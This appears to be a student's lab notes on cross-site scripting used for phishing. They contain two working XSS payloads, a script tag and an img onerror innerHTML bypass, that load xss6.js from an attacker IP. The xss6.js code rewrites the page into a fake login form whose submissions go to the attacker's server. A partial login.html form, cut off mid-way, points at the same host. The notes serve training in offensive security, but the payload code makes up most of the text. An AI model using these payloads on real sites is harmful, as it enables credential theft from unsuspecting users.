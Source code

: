 ![[Pasted image 20240805180655.png]]

##### Labs


Starting page
![[Pasted image 20240805181008.png]]

Payload
```bash
<script src="http://192.168.45.236:80/xss6.js"></script>
```

InnerHTML Payload
```html
<img src="x" onerror="this.onerror=null;document.write('<script src=\'http://192.168.45.236:80/xss6.js\'></script>');" />
```

xss6.js
- this script is used for phishing - upon submitting the payload above into the `search` web page - it grabs the `xss6.js` script from the python server and provides a login page for the victim
```js
fetch("login").then(res => res.text().then(data => {
	document.getElementsByTagName("html")[0].innerHTML = data
	document.getElementsByTagName("form")[0].action = "http://192.168.45.236"
	document.getElementsByTagName("form")[0].method = "get"
}))
```

![[Pasted image 20240805195021.png]]
hit `search` and the login screen appears - enter in `test/test` and hit sign in
![[Pasted image 20240805195158.png]]
upon hitting `sign in` we get the credentials in the  python server - this was an example

![[Pasted image 20240805195320.png]]
Now to for the lab
![[Pasted image 20240805195502.png]]
the problem is that we can't write a script here, only an image to bypass the `innerHTML`
![[Pasted image 20240805195634.png]]
The problem is that this website doesn't have a `login` form, so when we use the `innerHTML` payload that typically works

InnerHTML Payload
```html
<img src="x" onerror="this.onerror=null;document.write('<script src=\'http://192.168.45.236:80/xss6.js\'></script>');" />
```
we get an error of `NOT FOUND`
![[Pasted image 20240805200034.png]]
In order to get past this we need to create our own `login` form so we google `login form html` and come across this website https://www.w3schools.com/howto/howto_css_login_form.asp - the only parts that we need are the highlighted portions
![[Pasted image 20240805200405.png]]
###### login.html
- The only things changed were the `action_page.php` to `IP` and the method to `GET`
```html
<form action="http://192.168.45.236/xss6.js" method="GET">  
  <div class="container">  
    <label for="uname"><b>Username</b></label>  
    <input type="text" placeholder="Enter Username" name="uname" required>  
  
    <label for="psw"><b>Password</b></label>  
```